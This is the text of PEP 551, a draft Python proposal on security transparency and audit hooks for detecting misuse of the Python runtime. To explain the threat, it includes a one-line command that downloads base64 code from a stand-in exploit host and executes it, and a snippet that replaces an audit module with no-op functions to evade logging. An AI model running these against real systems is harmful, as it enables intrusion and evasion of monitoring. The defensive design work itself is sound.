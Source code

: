 PEP: 551
Title: Security transparency in the Python runtime
Version: $Revision$
Last-Modified: $Date$
Author: Steve Dower <steve.dower@python.org>
Status: Draft
Type: Informational
Content-Type: text/x-rst
Created: 23-Aug-2017
Python-Version: 3.7
Post-History: 24-Aug-2017 (security-sig), 28-Aug-2017 (python-dev)

Status
======

This PEP is currently in the process of being split into two.

See PEP 578 for the new auditing APIs proposed for addition to the next
version of Python.

PEP 551 is now a draft informational PEP, providing guidance to those
planning to integrate Python into their secure or audited environments.

Abstract
========

This PEP describes the concept of security transparency and how it
applies to the Python runtime. Visibility into actions taken by the
runtime is invaluable in integrating Python into an otherwise secure
and/or monitored environment.

The audit hooks described in PEP-578 are an essential component in
detecting, identifying and analyzing misuse of Python. While the hooks
themselves are neutral (in that not every reported event is inherently
misuse), they provide essential context to those who are responsible
for monitoring an overall system or network. With enough transparency,
attackers are no longer able to hide.

Background
==========

Software vulnerabilities are generally seen as bugs that enable remote
or elevated code execution. However, in our modern connected world, the
more dangerous vulnerabilities are those that enable advanced persistent
threats (APTs). APTs are achieved when an attacker is able to penetrate
a network, establish their software on one or more machines, and over
time extract data or intelligence. Some APTs may make themselves known
by maliciously damaging data (e.g., `WannaCrypt
<https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?Name=Ransom:Win32/WannaCrypt>`_)
or hardware (e.g., `Stuxnet
<https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?name=Win32/Stuxnet>`_).
Most attempt to hide their existence and avoid detection. APTs often use
a combination of traditional vulnerabilities, social engineering,
phishing (or spear-phishing), thorough network analysis, and an
understanding of misconfigured environments to establish themselves and
do their work.

The first infected machines may not be the final target and may not
require special privileges. For example, an APT that is established as a
non-administrative user on a developer’s machine may have the ability to
spread to production machines through normal deployment channels. It is
common for APTs to persist on as many machines as possible, with sheer
weight of presence making them difficult to remove completely.

Whether an attacker is seeking to cause direct harm or hide their
tracks, the biggest barrier to detection is a lack of insight. System
administrators with large networks rely on distributed logs to
understand what their machines are doing, but logs are often filtered to
show only error conditions. APTs that are attempting to avoid detection
will rarely generate errors or abnormal events. Reviewing normal
operation logs involves a significant amount of effort, though work is
underway by a number of companies to enable automatic anomaly detection
within operational logs. The tools preferred by attackers are ones that
are already installed on the target machines, since log messages from
these tools are often expected and ignored in normal use.

At this point, we are not going to spend further time discussing the
existence of APTs or methods and mitigations that do not apply to this
PEP. For further information about the field, we recommend reading or
watching the resources listed under `Further Reading`_.

Python is a particularly interesting tool for attackers due to its
prevalence on server and developer machines, its ability to execute
arbitrary code provided as data (as opposed to native binaries), and its
complete lack of internal auditing. This allows attackers to download,
decrypt, and execute malicious code with a single command::

    python -c "import urllib.request, base64;
        exec(base64.b64decode(
            urllib.request.urlopen('http://my-exploit/py.b64')
        ).decode())"

This command currently bypasses most anti-malware scanners that rely on
recognizable code being read through a network connection or being
written to disk (base64 is often sufficient to bypass these checks). It
also bypasses protections such as file access control lists or
permissions (no file access occurs), approved application lists
(assuming Python has been approved for other uses), and automated
auditing or logging (assuming Python is allowed to access the internet
or access another machine on the local network from which to obtain its
payload).

General consensus among the security community is that totally
preventing attacks is infeasible and defenders should assume that they
will often detect attacks only after they have succeeded. This is known
as the "assume breach" mindset. [1]_ In this scenario, protections such
as sandboxing and input validation have already failed, and the
important task is detection, tracking, and eventual removal of the
malicious code. To this end, the primary feature required from Python is
security transparency: the ability to see what operations the Python
runtime is performing that may indicate anomalous or malicious use.
Preventing such use is valuable, but secondary to the need to know that
it is occurring.

To summarise the goals in order of increasing importance:

* preventing malicious use is valuable
* detecting malicious use is important
* detecting attempts to bypass detection is critical

One example of a scripting engine that has addressed these challenges is
PowerShell, which has recently been enhanced towards similar goals of
transparency and prevention. [2]_

Generally, application and system configuration will determine which
events within a scripting engine are worth logging. However, given the
value of many logs events are not recognized until after an attack is
detected, it is important to capture as much as possible and filter
views rather than filtering at the source (see the No Easy Breach video
from `Further Reading`_). Events that are always of interest include
attempts to bypass auditing, attempts to load and execute code that is
not correctly signed or access-controlled, use of uncommon operating
system functionality such as debugging or inter-process inspection
tools, most network access and DNS resolution, and attempts to create
and hide files or configuration settings on the local machine.

To summarize, defenders have a need to audit specific uses of Python in
order to detect abnormal or malicious usage. Currently, the Python
runtime does not provide any ability to do this, which (anecdotally) has
led to organizations switching to other languages. The aim of this PEP
is to enable system administrators to deploy a security transparent copy
of Python that can integrate with their existing auditing and protection
systems.

On Windows, some specific features that may be enabled by this include:

* Script Block Logging [3]_
* DeviceGuard [4]_
* AMSI [5]_
* Persistent Zone Identifiers [6]_
* Event tracing (which includes event forwarding) [7]_

On Linux, some specific features that may be integrated are:

* gnupg [8]_
* sd_journal [9]_
* OpenBSM [10]_
* syslog [11]_
* auditd [12]_
* SELinux labels [13]_
* check execute bit on imported modules

On macOS, some features that may be used with the expanded APIs are:

* OpenBSM [10]_
* syslog [11]_

Overall, the ability to enable these platform-specific features on
production machines is highly appealing to system administrators and
will make Python a more trustworthy dependency for application
developers.

Overview of Changes
===================

True security transparency is not fully achievable by Python in
isolation. The runtime can audit as many events as it likes, but unless
the logs are reviewed and analyzed there is no value. Python may impose
restrictions in the name of security, but usability may suffer.
Different platforms and environments will require different
implementations of certain security features, and organizations with the
resources to fully customize their runtime should be encouraged to do
so.

The aim of these changes is to enable system administrators to integrate
Python into their existing security systems, without dictating what
those systems look like or how they should behave. We propose two API
changes to enable this: an Audit Hook and Verified Open Hook. Both are
not set by default, and both require modifications to the entry point
binary to enable any functionality. For the purposes of validation and
example, we propose a new ``spython``/``spython.exe`` entry point
program that enables some basic functionality using these hooks.
**However, security-conscious organizations are expected to create their
own entry points to meet their own needs.**


SPython Entry Point
===================

A new entry point binary will be added, called ``spython.exe`` on
Windows and ``spythonX.Y`` on other platforms. This entry point is
intended primarily as an example, as we expect most users of this
functionality to implement their own entry point and hooks (see
`Recommendations`_). It will also be used for tests.

Source builds will build ``spython`` by default, but distributions
should not include it except as a test binary. The python.org managed
binary distributions will not include ``spython``.

**Do not accept most command-line arguments**

The ``spython`` entry point requires a script file be passed as the
first argument, and does not allow any options. This prevents arbitrary
code execution from in-memory data or non-script files (such as pickles,
which can be executed using ``-m pickle <path>``.

Options ``-B`` (do not write bytecode), ``-E`` (ignore environment
variables) and ``-s`` (no user site) are assumed.

If a file with the same full path as the process with a ``._pth`` suffix
(``spython._pth`` on Windows, ``spythonX.Y._pth`` on Linux) exists, it
will be used to initialize ``sys.path`` following the rules currently
described `for Windows
<https://docs.python.org/3/using/windows.html#finding-modules>`_.

When built with ``Py_DEBUG``, the ``spython`` entry point will allow a
``-i`` option with no other arguments to enter into interactive mode,
with audit messages being written to standard error rather than a file.
This is intended for testing and debugging only.

**Log security events to a file**

Before initialization, ``spython`` will set an audit hook that writes
events to a local file. By default, this file is the full path of the
process with a ``.log`` suffix, but may be overridden with the
``SPYTHONLOG`` environment variable (despite such overrides being
explicitly discouraged in `Recommendations`_).

The audit hook will also abort all ``sys.addaudithook`` events,
preventing any other hooks from being added.

**Restrict importable modules**

Also before initialization, ``spython`` will set an open-for-import
hook that validates all files opened with ``os.open_for_import``. This
implementation will require all files to have a ``.py`` suffix (thereby
blocking the use of cached bytecode), and will raise a custom audit
event ``spython.open_for_import`` containing ``(filename,
True_if_allowed)``.

On Windows, the hook will also open the file with flags that prevent any
other process from opening it with write access, which allows the hook
to perform additional validation on the contents with confidence that it
will not be modified between the check and use. Compilation will later
trigger a ``compile`` event, so there is no need to read the contents
now for AMSI, but other validation mechanisms such as DeviceGuard [4]_
should be performed here.

**Restrict globals in pickles**

The ``spython`` entry point will abort all ``pickle.find_class`` events
that use the default implementation. Overrides will not raise audit
events unless explicitly added, and so they will continue to be allowed.

Performance Impact
==================

The important performance impact is the case where events are being
raised but there are no hooks attached. This is the unavoidable case -
once a distributor or sysadmin begins adding audit hooks they have
explicitly chosen to trade performance for functionality. Performance
impact using ``spython`` or with hooks added are not of interest here,
since this is considered opt-in functionality.

Analysis using the ``performance`` tool shows no significant impact,
with the vast majority of benchmarks showing between 1.05x faster to
1.05x slower.

In our opinion, the performance impact of the set of auditing points
described in this PEP is negligible.

Recommendations
===============

Specific recommendations are difficult to make, as the ideal
configuration for any environment will depend on the user's ability to
manage, monitor, and respond to activity on their own network. However,
many of the proposals here do not appear to be of value without deeper
illustration. This section provides recommendations using the terms
**should** (or **should not**), indicating that we consider it dangerous
to ignore the advice, and **may**, indicating that for the advice ought
to be considered for high value systems. The term **sysadmins** refers
to whoever is responsible for deploying Python throughout your network;
different organizations may have an alternative title for the
responsible people.

Sysadmins **should** build their own entry point, likely starting from
the ``spython`` source, and directly interface with the security systems
available in their environment. The more tightly integrated, the less
likely a vulnerability will be found allowing an attacker to bypass
those systems. In particular, the entry point **should not** obtain any
settings from the current environment, such as environment variables,
unless those settings are otherwise protected from modification.

Audit messages **should not** be written to a local file. The
``spython`` entry point does this for example and testing purposes. On
production machines, tools such as ETW [7]_ or auditd [12]_ that are
intended for this purpose should be used.

The default ``python`` entry point **should not** be deployed to
production machines, but could be given to developers to use and test
Python on non-production machines. Sysadmins **may** consider deploying
a less restrictive version of their entry point to developer machines,
since any system connected to your network is a potential target.
Sysadmins **may** deploy their own entry point as ``python`` to obscure
the fact that extra auditing is being included.

Python deployments **should** be made read-only using any available
platform functionality after deployment and during use.

On platforms that support it, sysadmins **should** include signatures
for every file in a Python deployment, ideally verified using a private
certificate. For example, Windows supports embedding signatures in
executable files and using catalogs for others, and can use DeviceGuard
[4]_ to validate signatures either automatically or using an
``open_for_import`` hook.

Sysadmins **should** log as many audited events as possible, and
**should** copy logs off of local machines frequently. Even if logs are
not being constantly monitored for suspicious activity, once an attack
is detected it is too late to enable auditing. Audit hooks **should
not** attempt to preemptively filter events, as even benign events are
useful when analyzing the progress of an attack. (Watch the "No Easy
Breach" video under `Further Reading`_ for a deeper look at this side of
things.)

Most actions **should not** be aborted if they could ever occur during
normal use or if preventing them will encourage attackers to work around
them. As described earlier, awareness is a higher priority than
prevention. Sysadmins **may** audit their Python code and abort
operations that are known to never be used deliberately.

Audit hooks **should** write events to logs before attempting to abort.
As discussed earlier, it is more important to record malicious actions
than to prevent them.

Sysadmins **should** identify correlations between events, as a change
to correlated events may indicate misuse. For example, module imports
will typically trigger the ``import`` auditing event, followed by an
``open_for_import`` call and usually a ``compile`` event. Attempts to
bypass auditing will often suppress some but not all of these events. So
if the log contains ``import`` events but not ``compile`` events,
investigation may be necessary.

The first audit hook **should** be set in C code before
``Py_Initialize`` is called, and that hook **should** unconditionally
abort the ``sys.addloghook`` event. The Python interface is primarily
intended for testing and development.

To prevent audit hooks being added on non-production machines, an entry
point **may** add an audit hook that aborts the ``sys.addloghook`` event
but otherwise does nothing.

On production machines, a non-validating ``open_for_import`` hook
**may** be set in C code before ``Py_Initialize`` is called. This
prevents later code from overriding the hook, however, logging the
``setopenforexecutehandler`` event is useful since no code should ever
need to call it. Using at least the sample ``open_for_import`` hook
implementation from ``spython`` is recommended.

Since ``importlib``'s use of ``open_for_import`` may be easily bypassed
with monkeypatching, an audit hook **should** be used to detect
attribute changes on type objects.

[TODO: more good advice; less bad advice]

Rejected Ideas
==============

Separate module for audit hooks
-------------------------------

The proposal is to add a new module for audit hooks, hypothetically
``audit``. This would separate the API and implementation from the
``sys`` module, and allow naming the C functions ``PyAudit_AddHook`` and
``PyAudit_Audit`` rather than the current variations.

Any such module would need to be a built-in module that is guaranteed to
always be present. The nature of these hooks is that they must be
callable without condition, as any conditional imports or calls provide
more opportunities to intercept and suppress or modify events.

Given its nature as one of the most core modules, the ``sys`` module is
somewhat protected against module shadowing attacks. Replacing ``sys``
with a sufficiently functional module that the application can still run
is a much more complicated task than replacing a module with only one
function of interest. An attacker that has the ability to shadow the
``sys`` module is already capable of running arbitrary code from files,
whereas an ``audit`` module can be replaced with a single statement::

    import sys; sys.modules['audit'] = type('audit', (object,),
        {'audit': lambda *a: None, 'addhook': lambda *a: None})

Multiple layers of protection already exist for monkey patching attacks
against either ``sys`` or ``audit``, but assignments or insertions to
``sys.modules`` are not audited.

This idea is rejected because it makes substituting ``audit`` calls
throughout all callers near trivial.

Flag in sys.flags to indicate "secure" mode
-------------------------------------------

The proposal is to add a value in ``sys.flags`` to indicate when Python
is running in a "secure" mode. This would allow applications to detect
when some features are enabled and modify their behaviour appropriately.

Currently there are no guarantees made about security by this PEP - this
section is the first time the word "secure" has been used. Security
**transparency** does not result in any changed behaviour, so there is
no appropriate reason for applications to modify their behaviour.

Both application-level APIs ``sys.audit`` and ``_imp.open_for_import``
are always present and functional, regardless of whether the regular
``python`` entry point or some alternative entry point is used. Callers
cannot determine whether any hooks have been added (except by performing
side-channel analysis), nor do they need to. The calls should be fast
enough that callers do not need to avoid them, and the sysadmin is
responsible for ensuring their added hooks are fast enough to not affect
application performance.

The argument that this is "security by obscurity" is valid, but
irrelevant. Security by obscurity is only an issue when there are no
other protective mechanisms; obscurity as the first step in avoiding
attack is strongly recommended (see `this article
<https://danielmiessler.com/study/security-by-obscurity/>`_ for
discussion).

This idea is rejected because there are no appropriate reasons for an
application to change its behaviour based on whether these APIs are in
use.

Further Reading
===============


**Redefining Malware: When Old Terms Pose New Threats**
    By Aviv Raff for SecurityWeek, 29th January 2014

    This article, and those linked by it, are high-level summaries of the rise of
    APTs and the differences from "traditional" malware.

    `<http://www.securityweek.com/redefining-malware-when-old-terms-pose-new-threats>`_

**Anatomy of a Cyber Attack**
    By FireEye, accessed 23rd August 2017

    A summary of the techniques used by APTs, and links to a number of relevant
    whitepapers.

    `<https://www.fireeye.com/current-threats/anatomy-of-a-cyber-attack.html>`_

**Automated Traffic Log Analysis: A Must Have for Advanced Threat Protection**
    By Aviv Raff for SecurityWeek, 8th May 2014

    High-level summary of the value of detailed logging and automatic analysis.

    `<http://www.securityweek.com/automated-traffic-log-analysis-must-have-advanced-threat-protection>`_

**No Easy Breach: Challenges and Lessons Learned from an Epic Investigation**
    Video presented by Matt Dunwoody and Nick Carr for Mandiant at SchmooCon 2016

    Detailed walkthrough of the processes and tools used in detecting and removing
    an APT.

    `<https://archive.org/details/No_Easy_Breach>`_

**Disrupting Nation State Hackers**
    Video presented by Rob Joyce for the NSA at USENIX Enigma 2016

    Good security practices, capabilities and recommendations from the chief of
    NSA's Tailored Access Operation.

    `<https://www.youtube.com/watch?v=bDJb8WOJYdA>`_

References
==========

.. [1] Assume Breach Mindset, `<http://asian-power.com/node/11144>`_

.. [2] PowerShell Loves the Blue Team, also known as Scripting Security and
   Protection Advances in Windows 10, `<https://blogs.msdn.microsoft.com/powershell/2015/06/09/powershell-the-blue-team/>`_

.. [3] `<https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html>`_

.. [4] `<https://aka.ms/deviceguard>`_

.. [5] AMSI, `<https://msdn.microsoft.com/en-us/library/windows/desktop/dn889587(v=vs.85).aspx>`_

.. [6] Persistent Zone Identifiers, `<https://msdn.microsoft.com/en-us/library/ms537021(v=vs.85).aspx>`_

.. [7] Event tracing, `<https://msdn.microsoft.com/en-us/library/aa363668(v=vs.85).aspx>`_

.. [8] `<https://www.gnupg.org/>`_

.. [9] `<https://www.systutorials.com/docs/linux/man/3-sd_journal_send/>`_

.. [10] `<http://www.trustedbsd.org/openbsm.html>`_

.. [11] `<https://linux.die.net/man/3/syslog>`_

.. [12] `<http://security.blogoverflow.com/2013/01/a-brief-introduction-to-auditd/>`_

.. [13] SELinux access decisions `<http://man7.org/linux/man-pages/man3/avc_entry_ref_init.3.html>`_

Acknowledgments
===============

Thanks to all the people from Microsoft involved in helping make the
Python runtime safer for production use, and especially to James Powell
for doing much of the initial research, analysis and implementation, Lee
Holmes for invaluable insights into the info-sec field and PowerShell's
responses, and Brett Cannon for the restraining and grounding
discussions.

Copyright
=========

Copyright (c) 2017 by Microsoft Corporation. This material may be
distributed only subject to the terms and conditions set forth in the
Open Publication License, v1.0 or later (the latest version is presently
available at http://www.opencontent.org/openpub/).
